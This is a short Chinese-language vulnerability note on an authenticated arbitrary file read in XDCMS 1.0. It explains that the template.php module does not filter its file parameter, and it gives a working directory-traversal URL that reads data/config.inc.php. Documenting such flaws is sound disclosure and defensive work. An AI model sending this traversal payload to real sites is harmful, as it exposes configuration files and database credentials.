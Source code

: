 XDCMS 1.0 后台任意文件读取
==========================

一、漏洞简介
------------

二、漏洞影响
------------

XDCMS 1.0

三、复现过程
------------

漏洞文件漏洞文件：`system\modules\xdcms\template.php`，同上述xss漏洞相同

![](/Users/aresx/Documents/VulWiki/.resource/XDCMS1.0后台任意文件读取/media/rId24.jpg)

第43行未对文件进行限制，从而导致了目录遍历，造成任意文件读取

对GET数据没有过滤

    http://www.0-sec.orv/xdcms/index.php?m=xdcms&c=template&f=edit&file=../../../data/config.inc.php

后台任意文件读取。

![](/Users/aresx/Documents/VulWiki/.resource/XDCMS1.0后台任意文件读取/media/rId25.jpg)

